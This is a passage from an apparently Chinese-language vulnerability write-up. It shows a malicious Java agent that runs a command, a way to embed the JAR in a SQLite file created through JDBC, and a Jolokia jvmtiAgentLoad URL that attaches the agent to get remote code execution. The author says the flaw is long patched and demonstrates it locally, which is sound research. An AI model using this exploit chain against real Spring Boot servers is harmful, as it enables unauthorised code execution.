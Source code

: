所以最终一个简单的恶意Java agent的代码如下：

    
    
    public class JavaAgent {  
        private static final String RCE_COMMAND = "open -a calculator";  
      
        public static void cmd() {  
            try {  
                Runtime.getRuntime().exec(RCE_COMMAND);  
            } catch (IOException e) {  
                e.printStackTrace();  
            }  
        }  
        public static void agentmain(String args, Instrumentation inst) {  
            System.out.println("In JavaAgent Agentmain");  
            cmd();  
        }  
    }

#### Jar文件的特性

这个漏洞利用了Jar文件的特性，说到特性就得先了解Jar的定义。以下是Oracle官方的定义

![]()image.png

两点有帮助的信息：

  * • Jar是基于Zip文件的一种文件格式

  * • Jar对文件名的要求不严格

所以我们可以像对Zip文件一样，把jar文件嵌入在其他文件里，而不影响其正常使用。

#### 演示测试效果

因为官方早已经修复了该漏洞，我在本地搭建了一个环境，演示以上两点的效果：

  * • 把恶意的Java agent写入SQLite数据库

  * • 在JDBC连接时，如果之前数据库文件不存在，会通过DriverManager的getConnection方法会自动创建一个SQLite数据库的文件 xxx.jar（文件后缀名对数据库的读取没有任何影响），并通过相应的SQL语句创建表。

  * • 把恶意的Java agent以Blob数据类型写入数据库，演示中是把打好的恶意agent.jar写入SQLite数据库文件test.jar

![]()image.png

  * • 加载恶意Java agent

    
    
    http://127.0.0.1:8099/actuator/jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/tmp!/test.jar

成功attach进去了恶意的Java agent，完成了RCE

![]()image.png

 ** ** **  
******
